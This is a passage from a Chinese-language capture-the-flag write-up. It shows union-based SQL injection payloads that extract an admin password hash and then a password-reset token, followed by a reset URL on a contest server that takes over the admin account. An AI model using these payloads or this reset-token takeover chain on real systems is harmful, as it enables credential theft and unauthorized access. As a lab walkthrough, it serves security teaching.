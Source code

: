 [![](https://p4.ssl.qhimg.com/t01421a2c30d34468fb.png)](https://p4.ssl.qhimg.com/t01421a2c30d34468fb.png)

根据给出的表，我再信他一回：）

[![](https://p0.ssl.qhimg.com/t01e066da9ec9f96511.png)](https://p0.ssl.qhimg.com/t01e066da9ec9f96511.png)

```
admin' union select 1,(select password from users limit 0,1),3,4,5#
```

[![](https://p5.ssl.qhimg.com/t016e72c05d1c570daa.png)](https://p5.ssl.qhimg.com/t016e72c05d1c570daa.png)

[![](https://p2.ssl.qhimg.com/t0128106c767a1abb1e.png)](https://p2.ssl.qhimg.com/t0128106c767a1abb1e.png)

到这里为止，发现密码无法破解

那么如何登入管理员呢？

### <a class="reference-link" name="%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE"></a>密码重置

这里还有一个表

[![](https://p1.ssl.qhimg.com/t0119044c8e526b1b63.png)](https://p1.ssl.qhimg.com/t0119044c8e526b1b63.png)

我们发现还能重置密码，而且只需要email和token！

那我们去拿管理员的token

```
admin' union select 1,(select token from password_resets limit 1,1),3,4,5#
```

[![](https://p1.ssl.qhimg.com/t01091285795e038f29.png)](https://p1.ssl.qhimg.com/t01091285795e038f29.png)

然后去重置管理员密码即可

[![](https://p1.ssl.qhimg.com/t0173a928146a35e1b6.png)](https://p1.ssl.qhimg.com/t0173a928146a35e1b6.png)

然后使用路径

```
http://49.4.78.81:31250/password/reset/1c9d0f377a75dd48abaa90dd7fa4eb35653da39561d6f9c33bdb14a8a0849616
```

[![](https://p5.ssl.qhimg.com/t015bb18a7dc189f421.png)](https://p5.ssl.qhimg.com/t015bb18a7dc189f421.png)

然后改密码即可登入管理员

到此为止，我们离flag又近了一步

### <a class="reference-link" name="%E7%99%BB%E5%85%A5%E5%90%8E%E5%8F%B0"></a>登入后台
